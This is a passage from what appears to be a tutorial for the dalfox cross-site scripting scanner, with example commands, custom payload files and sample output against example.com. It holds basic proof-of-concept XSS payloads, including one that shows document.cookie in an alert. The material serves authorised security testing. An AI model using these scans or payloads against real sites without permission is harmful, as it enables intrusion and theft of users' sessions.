 #### Output:
```plaintext
[INFO] Scanning Target: http://example.com?param=test
[RESULT] Found XSS Payload: http://example.com?param=<img src=x onerror=alert(1)>
```

---

### **4. Use Custom Payloads**
You can specify your payloads for the scan.

#### Command:
```bash
dalfox url "http://example.com?query=test" --custom-payload custom_payloads.txt
```

#### Example `custom_payloads.txt` File:
```plaintext
<svg/onload=alert(1)>
"><script>alert(document.cookie)</script>
```

#### Output:
```plaintext
[INFO] Using Custom Payloads
[RESULT] Found XSS Payload: http://example.com?query=<svg/onload=alert(1)>
```

---

### **5. Generate a JSON Report**
Save the results in JSON format for further analysis.

#### Command:
```bash
dalfox url "http://example.com?search=test" -o result.json
```

#### Example Output File (`result.json`):
```json
{
  "results": [
    {
      "type": "xss",
      "url": "http://example.com?search=<script>alert(1)</script>"
    }
  ]
}
```

---

### **6. Silent Mode for Scripting**
Use silent mode to suppress non-essential output.
